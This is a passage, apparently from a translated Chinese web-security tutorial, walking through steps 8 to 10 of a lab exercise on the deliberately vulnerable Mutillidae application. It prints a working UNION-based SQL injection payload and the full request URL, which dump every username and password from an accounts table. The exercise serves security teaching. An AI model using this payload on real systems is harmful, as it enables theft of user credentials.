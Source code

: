![](img/00175.jpeg)

8.  让我们看看还能做些什么。使用**用户帐户管理**页面上给出的 SQL 注入字符串，让我们尝试转储整个用户表。
9.  在`username=`之后追加以下值：

```
user'+union+select+concat('The+password+for+',username,'+is+',+password),mysignature+from+accounts+--+
```

新 URL 应为以下 URL：

```
/mutillidae/webservices/rest/ws-user-account.php?username=user'+union+select+concat('The+password+for+',username,'+is+',+password),mysignature+from+accounts+--+
```

10.  修改`username`参数后，点击**Go**按钮。您的请求应如以下屏幕截图所示：

![](img/00176.jpeg)
